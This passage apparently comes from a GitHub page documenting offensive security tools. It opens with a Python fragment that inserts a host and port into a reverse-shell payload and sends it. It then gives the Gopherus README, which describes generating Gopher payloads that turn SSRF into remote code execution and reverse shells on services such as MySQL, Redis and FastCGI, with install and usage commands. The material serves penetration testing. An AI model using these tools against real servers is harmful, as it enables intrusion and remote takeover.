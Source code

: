 ```python

            # Handle args for reverse shell
            payload = payload.replace("SERVER_HOST", self.SERVER_HOST)
            payload = payload.replace("SERVER_PORT", self.SERVER_PORT)

            # Send the payload
            r = requester.do_request(args.param, payload)
```

You can also contribute with a beer IRL or via Github Sponsor button.



### Gopherus

If you know a place which is SSRF vulnerable then, this tool will help you to generate Gopher payload for exploiting SSRF (Server Side Request Forgery) and gaining RCE (Remote Code Execution). And also it will help you to get the Reverse shell on the victim server. And for more information you can get a blog on the same [Blog on Gopherus](https://spyclub.tech/2018/08/14/2018-08-14-blog-on-gopherus/)

#### About

This tool can generate payload for following:

1. MySQL (Port-3306)
2. PostgreSQL(Port-5432)
3. FastCGI (Port-9000)
4. Memcached (Port-11211)
     If stored data is getting De-serialized by:
      \* Python
      \* Ruby
      \* PHP
5. Redis (Port-6379)
6. Zabbix (Port-10050)
7. SMTP (Port-25)

#### Installation

```
chmod +x install.sh
sudo ./install.sh
```

#### Usage

| Command            | Description           |
| ------------------ | --------------------- |
| gopherus --help    | Help                  |
| gopherus --exploit | Arguments can be :    |
|                    | --exploit mysql       |
|                    | --exploit postgresql  |
|                    | --exploit fastcgi     |
|                    | --exploit redis       |
|                    | --exploit zabbix      |
|                    | --exploit pymemcache  |
|                    | --exploit rbmemcache  |
|                    | --exploit phpmemcache |
|                    | --exploit dmpmemcache |